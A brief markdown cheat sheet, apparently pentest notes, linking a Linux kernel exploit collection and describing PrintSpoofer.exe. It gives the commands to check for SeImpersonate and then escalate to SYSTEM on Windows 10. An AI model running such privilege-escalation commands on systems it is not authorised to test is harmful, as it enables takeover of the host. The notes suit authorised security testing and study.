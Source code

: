 # Links

[Linux-Kernel-Exploits](https://github.com/SecWiki/linux-kernel-exploits)

# Windows Privilege Escalation Tools

## PrintSpoofer.exe
- Tested on Windows 10 - [Reference](https://itm4n.github.io/printspoofer-abusing-impersonate-privileges/)
- Uses NamedPipes and SeImpersonate to gain SYSTEM level priviledges - LPE
```bash
# Check for SeImpersonate
whoami /priv
# Execute LPE
PrintSpoofer.exe -i -c cmd
```
